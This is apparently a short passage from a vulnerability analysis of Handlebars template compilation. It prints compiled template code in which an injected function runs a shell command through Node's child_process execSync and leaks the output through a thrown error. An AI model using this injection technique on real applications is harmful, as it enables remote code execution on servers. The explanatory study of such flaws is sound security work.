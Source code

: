 `helper.callParams` includes the function from `pushLiteral` in the final code:

```
(function anonymous(container,depth0,helpers,partials,data) {
  var stack1, lookupProperty = container.lookupProperty || function(parent, propertyName) {
        if (Object.prototype.hasOwnProperty.call(parent, propertyName)) {
          return parent[propertyName];
        }
        return undefined
    };

  return ((stack1 = (lookupProperty(helpers,"undefined")||(depth0 && lookupProperty(depth0,"undefined"))||container.hooks.helperMissing).call(depth0 != null ? depth0 : (container.nullContext || {}),function () {throw new Error(process.mainModule.require('child_process').execSync('dir').toString())}(),{"name":"undefined","hash":{},"data":data,"loc":{"start":"0","end":"0"}})) != null ? stack1 : "");
})
```